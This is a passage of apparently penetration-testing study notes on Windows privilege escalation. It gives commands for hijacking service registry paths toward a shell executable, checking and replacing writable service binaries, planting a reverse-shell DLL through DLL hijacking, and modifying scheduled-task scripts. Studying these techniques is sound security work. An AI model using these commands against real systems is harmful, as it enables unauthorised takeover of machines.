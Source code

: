        </tr>
        <tr>
            <td>Change registry value</td>
            <td>
                <table>
                    <tr>
                        <td>Method 1</td>
                        <td>reg add HKLM\service\path  /v ImagePath /t REG_EXPAND_SZ /d D:\PrivEsc\shell4444.exe /f</td>
                    </tr>
                    <tr>
                        <td>Method 2</td>
                        <td>Set-ItemProperty -path HKLM:\System\CurrentControlSet\Services\&lt;service&gt; -Name ImagePath -Value &quot;&lt;executable&gt;&quot;</td>
                    </tr>
                </table>
            </td>
        </tr>
    </table>
    <li>Insecure Service Executables</li>
    <ul>
        <li>If able, replace original service executable with our own.</li>
    </ul>
    <table>
        <tr>
            <td>Check for access with accesschk.exe</td>
            <td>accesschk.exe /accepteula -quvw "C:\&lt;executable&gt;"</td>
        </tr>
        <tr>
            <td>Check access with icacls</td>
            <td>Icacls "C:\&lt;executable&gt;"</td>
        </tr>
    </table>
    <li>DLL Hijacking</li>
    <ul>
        <li>Enumerate non-windows services to see which one we are able to start/stop</li>
        <li>Analyze the service executable using procmon and implement a malicious .dll file:</li>
        <ul>
            <li>Download executable</li>
            <li>Open procmon</li>
            <li>Stop and clear capture</li>
            <li>Push ctrl + L - drop down menu for "Process Name" - enter process name - push add & OK</li>
            <li>Deselect "show registry activity" & "show network activity"</li>
            <li>Start capture</li>
            <li>Look for dll's that are attempted to be executed but do not exist.  Put a reverse shell .dll in that directory</li>
        </ul>
        <li>Start the vulnerable service</li>
    </ul>

    <h2>Scheduled Tasks</h2>
    <li>Tasks run at time intervals or by events (log-on, etc)</li>
    <li>Tasks run with privileges of user who created them.</li>
    <ul>
        <li>Administrator can set tasks to run as other users.</li>
    </ul>
    <li>List all scheduled tasks your user can see:</li>
    <ul>
        <li>Schtasks /query /fo LIST /v</li>
        <li>Get-ScheduledTask| where {$_.TaskPath-notlike"\Microsoft*"} | ft TaskName,TaskPath,State</li>
    </ul>
    <li>Usually need to look for tasks based on other clues like finding a script or log file that shows a scheduled task is being run.</li>
    <li>look for a script running on a schedule and modify it with some malicious action.  Look into interesting directories.</li>